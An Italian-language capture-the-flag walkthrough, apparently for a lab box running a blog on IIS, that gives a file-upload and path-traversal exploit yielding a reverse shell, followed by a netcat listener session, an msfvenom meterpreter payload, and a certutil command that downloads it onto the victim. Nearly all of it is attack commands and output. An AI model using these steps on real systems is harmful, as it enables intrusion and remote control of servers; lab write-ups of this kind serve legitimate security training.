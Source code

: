 ```
nano 46353.cs
```
```
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.11.116.149", 4445)) {
```

```
mv 46353.cs PostView.ascx
```

```
nc -nlvp 4445
```

```
http://10.10.226.170/?theme=../../App_Data/files
```

```
└─$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.11.116.149] from (UNKNOWN) [10.10.192.195] 49304
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
ls
c:\windows\system32\inetsrv>ls
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog

```
Come viene eseguito il webserver?
```
iis apppool\blog
```

La nostra sessione netcat è un po' instabile, quindi generiamo un'altra reverse shell usando msfvenom. da kali

```
sudo msfvenom -f exe -p windows/meterpreter/reverse_tcp LHOST=10.11.116.149 LPORT=4444 -e x64/shikata_ga_nai -o shellX.exe
```

```
python -m http.server 80
```

sul server vittima
```target
cd c:\Windows\Temp
```
```target
certutil -urlcache -f http://10.11.116.149/shellX.exe shellX.exe
```

da kali
```
msfconsole
```
